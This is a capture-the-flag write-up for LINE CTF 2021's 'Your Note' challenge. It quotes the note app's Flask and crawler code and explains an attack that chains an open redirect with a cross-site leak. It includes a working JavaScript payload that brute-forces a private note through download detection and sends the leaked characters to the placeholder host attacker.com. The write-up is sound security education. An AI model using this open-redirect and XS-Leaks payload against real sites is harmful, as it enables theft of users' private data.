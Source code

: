 ```yaml
---
layout: post
title:  "Your Note"
tags: ctf
author: f02a8dfe
---
```

Secure private note service
※ Admin have disabled some security feature of their browser...Flag Format: LINECTF{[a-z0-9-]+}
LINECTF, 20th March 2021

The author provided a link to a note taking site and a docker zip.

The source code of `app.py` revealed the flag was added to the admin account notes:

{% highlight python %}
admin_note = Note(
    title='flag',
    content=app.config.get('FLAG'),
    owner=admin
)
db.session.add(admin_note)
db.session.commit()
{% endhighlight %}

`/login` included a `redirect` parameter which was appended to the `BASE_URL` allowing arbitrary redirects:

{% highlight python %}
@app.route('/login', methods=['GET', 'POST'])
def login():
    url = request.args.get('redirect')
    if url:
        url = app.config.get('BASE_URL') + url
        if current_user.is_authenticated:
            return redirect(url)
{% endhighlight %}

the `search` function `download` parameter allowed results to be downloaded:

{% highlight python %}
@app.route('/search')
@login_required
def search():
    q = request.args.get('q')
    download = request.args.get('download') is not None
    if q:
        notes = Note.query.filter_by(owner=current_user).filter(or_(Note.title.like(f'%{q}%'), Note.content.like(f'%{q}%'))).all()
        if notes and download:
            return Response(json.dumps(NoteSchema(many=True).dump(notes)), headers={'Content-disposition': 'attachment;filename=result.json'})
    else:
        return redirect(url_for('index'))
    return render_template('index.html', notes=notes, is_search=True)
{% endhighlight %}

and the `report` function submitted a GET request to `CRAWLER_URL`:

{% highlight python %}
@app.route('/report', methods=['GET', 'POST'])
@login_required
def report():
    if request.method == 'POST':
        url = request.form.get('url')
        proof = request.form.get('proof')
        if url and proof:
            res = requests.get(
                app.config.get('CRAWLER_URL'),
                params={
                    'url': url,
                    'proof': proof,
                    'prefix': session.pop('pow_prefix')
                }
            )
{% endhighlight %}

crawler.js received the request, logged in as admin then visited the specified URL with a headless browser:

{% highlight js %}
const username = 'admin';
const password = process.env.ADMIN_PASSWORD || 'password';

    const url = req.query.url;
    if (url && url.startsWith(base_url + '/') &&
        proof && prefix && verify(proof, prefix)) {
        const browser = await puppeteer.launch({
            args: [
                '--no-sandbox',
                '--disable-popup-blocking',
            ],
            headless: true,
        });
        const page = await browser.newPage();

        // login
        await page.goto(base_url + '/login');
        await page.type('input[name=username]', username);
        await page.type('input[name=password]', password);
        await Promise.all([
            page.waitForNavigation({
                waitUntil: 'domcontentloaded',
                timeout: 10000,
            }),
            page.click('button[type=submit]'),
        ]);

        // crawl
        page.goto(url).then(() => {
            res.header('Access-Control-Allow-Origin', '*');
            res.send({msg: 'Thank you for the report!'});
        }).catch((err) => {
            res.header('Access-Control-Allow-Origin', '*');
            res.send({msg: 'ng'});
        });
        setTimeout(() => {
            browser.close()
        }, 60 * 1000)
        return
    }
{% endhighlight %}

the browser disabled popup blocking  and was closed after 60 seconds.

By reporting a crafted link:

`http://line.ctf/login?redirect=@attacker.com/script.htm`

it was possible to redirect it to a malicious page:

{% highlight html %}
<script>
function sleep(ms) {
  return new Promise(resolve => setTimeout(resolve, ms));
}

async function search(candidates,url,host) {
  finished = false;
  while (!finished) {
	  for (i=0;i<candidates.length;i++) {
		win = window.open(url + '/search?q=' + flag + candidates[i] + '&download');
		await sleep(200);
		try {
			win.origin;
			// if win.origin does not trigger an error 
			// no page was opened, must be a download
			window.open(host + '/' + i + '/y/' + flag + candidates[i]);
			flag = flag + candidates[i];
			if (candidates[i] == '}') {
				finished = true;
			}
			break;
		} catch(e) {
			// if navigation occured an error is triggered
			// window is cross-origin
			window.open(host + '/' + i + '/n/' + flag + candidates[i]); 
		}
		//await sleep(200);  	
	  }
  }
}

url="http://line.ctf";
host="http://attacker.com";

candidates = "}0123456789-abcdefghijklmnopqrstuvwxyz".split("");
flag = 'LINECTF{';

search(candidates,url,host);
</script>
{% endhighlight %}

The script takes advantage of `--disable-popup-blocking` to request a download of the search results. If the search string was found a download was triggered. If not the site returned an empty search results page. 

It's possible to determine whether a download was started by checking the value of `window.origin`, as described by [XS Leaks Wiki][xsleaks]. If no error is triggered no page was loaded because no origin was set. 

The script leverages this difference to brute force the content of the flag note. It sends incorrect guesses to `host/i/n/*` and correct guesses to `host/i/y/*`.

The flag was recovered by generating several requests to the script while watching the web server logs and updating the flag string. 

[xsleaks]: https://xsleaks.com/docs/attacks/navigations/



